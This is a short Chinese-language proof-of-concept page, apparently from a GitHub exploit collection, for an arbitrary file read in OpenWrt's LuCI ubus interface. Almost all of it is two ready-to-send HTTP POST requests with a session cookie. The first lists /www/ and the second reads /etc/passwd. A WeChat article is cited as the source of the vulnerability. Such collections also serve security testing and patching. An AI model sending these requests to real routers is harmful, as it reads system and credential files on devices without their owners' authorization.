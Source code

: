 # OpenWrt任意文件读取

## poc

```javascript
POST /cgi-bin/luci/admin/ubus?1733734260589 HTTP/1.1
Host: 192.168.121.180
Content-Length: 121
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.121.180
Referer: http://192.168.121.180/cgi-bin/luci/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=305ade5ef36d6ced39e386729e8868b6
Connection: close

[{"jsonrpc":"2.0","id":0,"method":"call","params":["305ade5ef36d6ced39e386729e8868b6","file","list",{"path":"/www/"}]}]
```

```javascript
POST /cgi-bin/luci/admin/ubus?1733734260589 HTTP/1.1
Host: 192.168.121.180
Content-Length: 127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.121.180
Referer: http://192.168.121.180/cgi-bin/luci/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=305ade5ef36d6ced39e386729e8868b6
Connection: close

[{"jsonrpc":"2.0","id":0,"method":"call","params":["305ade5ef36d6ced39e386729e8868b6","file","read",{"path":"/etc/passwd"}]}]
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112142249.webp)



## 漏洞来源

- https://mp.weixin.qq.com/s/nRSmiZy5JMt-0K1sSeUexw